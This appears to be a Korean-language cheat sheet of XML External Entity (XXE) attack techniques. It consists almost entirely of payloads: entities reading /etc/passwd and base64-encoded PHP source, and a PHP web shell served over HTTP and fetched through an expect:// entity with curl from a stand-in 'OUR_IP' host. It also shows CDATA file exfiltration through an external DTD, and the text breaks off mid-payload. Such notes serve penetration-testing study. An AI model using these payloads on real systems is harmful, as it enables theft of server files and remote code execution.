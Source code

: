 ### XML Entities
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE email [
  <!ENTITY company SYSTEM "http://localhost/company.txt">
  <!ENTITY signature SYSTEM "file:///var/www/html/signature.txt">
]>
```

### Local File Disclosure
- JSON 데이터를 XML로 변환 : [online tool](https://www.convertjson.com/json-to-xml.htm)

#### Reading Sensitive Files
```
<!DOCTYPE email [
  <!ENTITY company SYSTEM "file:///etc/passwd">
]>
```

#### Reading Source Code
```
<!DOCTYPE email [
  <!ENTITY company SYSTEM "php://filter/convert.base64-encode/resource=index.php">
]>
```

### Remote Code Execution with XXE
```
$ echo '<?php system($_REQUEST["cmd"]);?>' > shell.php
$ sudo python3 -m http.server 80
```
```xml
<?xml version="1.0"?>
<!DOCTYPE email [
  <!ENTITY company SYSTEM "expect://curl$IFS-O$IFS'OUR_IP/shell.php'">
]>
<root>
<name></name>
<tel></tel>
<email>&company;</email>
<message></message>
</root>
```
> 참고 : Space, `|`, `>`, 및 `{` 사용을 피해야 함

## Advanced File Disclosure

### Exfiltration with CDATA
```xml
<!DOCTYPE email [
  <!ENTITY begin "<![CDATA[">
  <!ENTITY file SYSTEM "file:///var/www/html/submitDetails.php">
  <!ENTITY end "]]>">
  <!ENTITY joined "&begin;&file;&end;">
]>
```
- 변형 공격
```
$ echo '<!ENTITY joined "%begin;%file;%end;">' > xxe.dtd
$ python3 -m http.server 8000
```
```xml
<!DOCTYPE email [
  <!ENTITY % begin "<![CDATA["> <!-- prepend the beginning of the CDATA tag -->
  <!ENTITY % file SYSTEM "file:///var/www/html/submitDetails.php"> <!-- reference external file -->
```